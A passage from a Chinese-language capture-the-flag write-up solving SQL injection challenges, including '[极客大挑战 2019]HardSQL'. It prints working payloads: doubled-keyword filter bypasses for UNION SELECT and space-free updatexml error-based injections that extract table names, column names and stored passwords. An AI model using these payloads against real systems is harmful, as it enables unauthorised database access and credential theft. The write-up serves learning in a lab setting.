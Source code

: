 下一步

```sql
-1' ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='b4bsql'#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732276368374-59f71a49-b46d-40a5-8994-bf5dc00371a5.png)

最后一步

```sql
-1' ununionion selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732276535343-23e61381-dcd4-421c-90ae-6ad1d5a8fe1b.png)





## [极客大挑战 2019]HardSQL 1
发现好多关键字和符号都被过滤了

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732278569110-54a6caad-aa59-441b-8adf-c2ccce234b6b.png)

尝试报错注入,and 和空格被过滤了

```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732279437112-440fb8bf-cc97-488d-a873-e1c79cbe4f75.png)

等于号被过滤了，用 like 替代

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')),0x7e),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732280011054-7149e318-f20a-4dba-886c-9cf6543d46f8.png)

爆表

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732280296909-662a72fb-565e-4f57-9c96-6a513a87136f.png)

爆 flag 前半段

```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732280457483-61e56ef5-5a78-4651-9783-d6d4646676c3.png)
